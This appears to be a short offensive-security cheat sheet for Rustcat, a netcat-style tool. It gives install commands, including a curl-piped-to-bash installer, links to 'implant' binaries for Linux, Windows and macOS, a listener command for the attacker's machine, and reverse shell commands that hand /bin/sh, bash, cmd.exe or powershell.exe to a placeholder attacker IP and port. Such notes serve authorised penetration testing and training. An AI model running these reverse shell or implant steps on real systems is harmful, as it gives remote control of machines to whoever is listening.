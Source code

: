 # Rustcat

## Setup

### Server

Install it according to your distribution.

```
$ bash <(curl -s https://raw.githubusercontent.com/robiot/rustcat/master/pkg/debian-install.sh)
```

```
$ yay -S rustcat
```

```
$ cargo install rustcat
```

### Implant

```
https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

```
https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

## Usage

Launch a listener on the attacker's machine in all addresses (`0.0.0.0`) with command history and command completion and `SIGINT` (`Ctrl + C`) blocking.

```
> rcat listen -ib <attacker_PORT>

> rcat l -ib <attacker_PORT>
```

### Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Github
